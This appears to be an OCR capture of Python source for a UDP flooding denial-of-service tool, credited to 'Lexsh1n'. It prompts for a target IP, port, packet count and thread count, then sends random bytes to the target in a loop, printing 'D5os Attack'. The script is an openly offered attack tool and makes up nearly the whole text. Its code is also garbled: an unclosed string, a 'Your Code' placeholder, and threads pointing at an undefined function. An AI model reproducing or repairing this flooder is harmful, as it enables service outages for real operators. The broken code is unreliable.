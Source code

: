 import random
import socket
import threading

print("""
--------> Version 5 | by Lexsh1n | Udp Simple.
target_server = str(input("[>] Ip Server :")) 
port_server = int(input("[>] Port Server :")) 
mengirim_request = int(input("[>] Pakets :")) 
mengirim_thread = int(input("[>]TimeOut :")) 

def attack():
    urandom_disini = random._urandom(Your Code) 
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            s.connect((target_server,port_server))
            s.send(urandom_disini)
            for x in range(mengirim_request):
                s.send(mengirim_thread)
            print("D5os Attack To ip ", target_server, ", sent Port ", port_server)
        except:
            s.close()

for y in range(mengirim_thread):
    th = threading.Thread(target = server)
    th.start()
